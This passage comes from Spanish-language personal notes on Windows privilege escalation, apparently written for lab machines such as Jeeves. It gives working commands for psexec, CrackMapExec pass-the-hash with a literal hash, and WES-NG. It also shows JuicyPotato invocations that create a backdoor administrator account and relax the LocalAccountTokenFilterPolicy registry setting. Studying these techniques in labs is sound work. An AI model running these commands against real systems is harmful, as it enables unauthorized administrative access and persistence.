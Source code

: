 ```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_WORD /d 1 /f
```
## PSEXEC s4vitar Bounty

Igual permite regresar una shell con permisos de authority system. Pasos previos tener el puerto 445 abierto agregar el usuario s4vitar, agregar al usuario a lo administradores y crear un recuerso compartido donde los administradores tengan acceso FULL. Recuerda que al parecer psexec te sube un binario es por eso que es detectado ya.

```
psexec.py WORKGROUP/s4vitar@10.10.14.22 cmd.exe
Password:
```
### PSEXEC Pass the Hash
Pero tambien se puede hacer pasando el hash

```
crackmapexec smb 10.129.185.202 -u 'Adminsitrator' -H e0fb1fb85756c24235ff238cbe81fe00
```

### Windows exploit suggester Next generation

WES-NG is a tool based on the output of Windows' systeminfo utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.

> https://github.com/bitsadmin/wesng

Tiene la capacidad de con el output del systeminfo genera las vulns pero da muchos falsos positivos.


### Juicy Potato

Esta es una herramienta donde puedes escalar privilegios si esta el SetImpersonate privilege activado. En la maquina Jeeves me funciono sin el CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097}) sin embargo, en las otras si tuve que ponerlo.

```
En el contexto de Windows, el CLSID (Class ID o Identificador de Clase) es un identificador único globalmente para una clase de objetos COM (Component Object Model). En el caso específico que mencionas, BITS se refiere a Background Intelligent Transfer Service, que es un servicio de Windows utilizado para la transferencia de archivos en segundo plano, comúnmente utilizado por Windows Update y otros servicios.



.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user s4vitar password123. /add" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"


.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators  s4vitar /add" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"

.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"

```
